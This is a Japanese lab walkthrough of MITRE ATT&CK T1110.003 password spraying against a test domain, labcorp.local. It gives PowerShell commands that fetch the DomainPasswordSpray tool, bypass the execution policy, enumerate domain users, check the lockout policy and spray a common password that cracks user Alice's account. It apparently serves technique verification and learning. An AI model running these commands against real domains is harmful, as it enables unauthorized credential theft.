





# T1110.003 - Password Spraying

Password Spraying
-------------

Password Spraying 攻撃について記載します。

|  Type  | Description   |
----|---- 
|  ID  |  T1110.003  |
|  Tactic  |  Credential Access |
|  Techniques  |  Brute Force  |
|  Sub-techniques  |  Password Spraying |

本検証では、dafthack 氏が公開している「Domain Password Spray」ツールを利用します。

まず、ツールの取得を行うため Invoke-WebRequest での TLS 1.2 を許可した上でダウンロードを行います。

```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest –URI "https://github.com/dafthack/DomainPasswordSpray/archive/master.zip" -OutFile "~\Desktop\Tools\PasswordSpary_master.zip“
```

ダウンロードした zip ファイルを展開します。

```
cd C:\Users\Alice\Desktop\Tools\
Expand-Archive .\PasswordSpray_master.zip
```

Excution Policy を許可したうえで、ツールのモジュールをインポートします。

```
cd .\PasswordSpray_master\DomainPasswordSpray-master\
Set-ExecutionPolicy Bypass
Import-Module .\DomainPasswordSpray.ps1
```
ここで、パスワードスプレーを試行するユーザの列挙を行います。
本ツールには、Get-DomainUserList 関数で事前にユーザの列挙を行う機能が備わっています。
以下の例では、列挙したユーザを userlist.txt ファイルに出力しています。

```
Get-DomainUserList -Domain labcorp.local -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt
```


次に、パスワードスプレーでは特定のパスワードを複数のユーザに対して試行を行いますが、本ツールでは試行するパスワードをリストで指定することが可能です。
多くのパスワードを指定すると、アカウントロックの恐れがあるため事前にパスワードポリシーを調査します。

パスワードポリシーの調査には、Powershell の Get-ADDefaultDomainPasswordPolicy ユーティリティを用います。
Windows 10 では標準で本ユーティリティが備わっていないため、Remote Server Administration Tools (RSAT) をインストールします。



https://docs.microsoft.com/en-US/troubleshoot/windows-server/system-management-components/remote-server-administration-tools



https://www.microsoft.com/en-us/download/details.aspx?id=45520

Get-ADDefaultDomainPasswordPolicy ユーティリティを実行するとアカウントロックの閾値を確認することができます。
以下の場合は、「Lookout Threshold」の値が 0 であるためアカウントロックの閾値は設定されていないことがわかります。



アカウントロックの閾値は設定されていませんでしたが、次の実行例ではパスワードに「p@ssw0rd」という文字列を指定してパスワードスプレーを試行しました。
その結果、ユーザ Alice のパスワードに合致しました。

```
Invoke-DomainPasswordSpray -UserList userlist.txt -Domain labcorp.local -Password p@ssw0rd -OutFile sprayed-creds.txt
```


